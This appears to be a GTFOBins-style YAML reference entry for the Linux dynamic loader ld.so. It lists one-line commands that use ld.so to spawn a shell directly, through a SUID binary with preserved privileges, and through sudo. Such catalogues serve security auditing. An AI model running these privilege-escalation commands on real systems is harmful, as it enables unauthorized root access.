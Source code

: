 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might
  change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  execute-interactive:
    - code: /lib/ld.so /bin/sh
  suid-enabled:
    - code: ./ld.so /bin/sh -p
  sudo-enabled:
    - code: sudo /lib/ld.so /bin/sh
---
```

